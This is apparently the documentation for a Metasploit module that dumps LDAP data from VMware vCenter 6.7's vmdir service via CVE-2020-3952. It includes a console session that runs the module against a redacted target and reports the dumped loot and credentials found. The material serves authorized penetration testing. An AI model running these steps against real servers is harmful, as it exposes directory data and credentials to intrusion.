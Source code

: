 ## Vulnerable Application

### Description

This module uses an anonymous-bind LDAP connection to dump data from
the vmdir service in VMware vCenter Server version 6.7 prior to the
6.7U3f update, only if upgraded from a previous release line, such as
6.0 or 6.5.
If the bind username and password are provided (BIND_DN and BIND_PW
options), these credentials will be used instead of attempting an
anonymous bind.

### Setup

Tested in the wild. No setup notes available at this time, as setup will
be specific to target environment.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Actions

### Dump

Dump all LDAP data from the vCenter Server.

## Options

### BASE_DN

If you already have the LDAP base DN, you may set it in this option.

## Scenarios

### VMware vCenter Server 6.7 virtual appliance on ESXi

```
msf5 > use auxiliary/gather/vmware_vcenter_vmdir_ldap
msf5 auxiliary(gather/vmware_vcenter_vmdir_ldap) > options

Module options (auxiliary/gather/vmware_vcenter_vmdir_ldap):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   BASE_DN                   no        LDAP base DN if you already have it
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    636              yes       The target port
   SSL      true             no        Enable SSL on the LDAP connection


Auxiliary action:

   Name  Description
   ----  -----------
   Dump  Dump all LDAP data


msf5 auxiliary(gather/vmware_vcenter_vmdir_ldap) > set rhosts [redacted]
rhosts => [redacted]
msf5 auxiliary(gather/vmware_vcenter_vmdir_ldap) > run
[*] Running module against [redacted]
not verifying SSL hostname of LDAPS server '[redacted]:636'

[*] Discovering base DN automatically
[*] Searching root DSE for base DN
dn: cn=DSE Root
namingcontexts: dc=vsphere,dc=local
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.1
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.2
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.3
supportedcontrol: 1.2.840.113556.1.4.417
supportedcontrol: 1.2.840.113556.1.4.319
supportedldapversion: 3
supportedsaslmechanisms: GSSAPI

[+] Discovered base DN: dc=vsphere,dc=local
[*] Dumping LDAP data from vmdir service at [redacted]:636
[+] [redacted]:636 is vulnerable to CVE-2020-3952
[*] Storing LDAP data in loot
[+] Saved LDAP data to /Users/wvu/.msf4/loot/20200417002613_default_[redacted]_VMwarevCenterS_939568.txt
[*] Password and lockout policy:
vmwpasswordchangeautounlockintervalsec: [redacted]
vmwpasswordchangefailedattemptintervalsec: [redacted]
vmwpasswordchangemaxfailedattempts: [redacted]
vmwpasswordlifetimedays: [redacted]
vmwpasswordmaxidenticaladjacentchars: [redacted]
vmwpasswordmaxlength: [redacted]
vmwpasswordminalphabeticcount: [redacted]
vmwpasswordminlength: [redacted]
vmwpasswordminlowercasecount: [redacted]
vmwpasswordminnumericcount: [redacted]
vmwpasswordminspecialcharcount: [redacted]
vmwpasswordminuppercasecount: [redacted]
vmwpasswordprohibitedpreviouscount: [redacted]

[+] Credentials found: [redacted]
[snip]
[*] Auxiliary module execution completed
msf5 auxiliary(gather/vmware_vcenter_vmdir_ldap) >
```
